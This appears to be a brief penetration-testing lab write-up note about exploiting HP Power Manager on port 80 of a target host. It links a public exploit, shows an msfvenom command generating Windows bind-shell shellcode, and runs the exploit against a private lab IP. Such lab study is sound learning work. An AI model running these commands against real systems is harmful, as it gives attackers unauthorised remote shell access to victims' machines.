 
# 80

A website running HP Power Manager:
![](attachment/f1f16b7cf98d188b21b1e1ebafc5ff29.png)

Using this exploit: https://github.com/Muhammd/HP-Power-Manager/tree/master

Replacing the shellcode:
```
msfvenom -p windows/shell_bind_tcp LHOST=192.168.45.167 LPORT=1234  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```
Now running the exploit:
```bash
python2 hpm_exploit.py 192.168.180.45
```
![](attachment/e7f9e1117e63070dd0bf99e5dfa6e505.png)


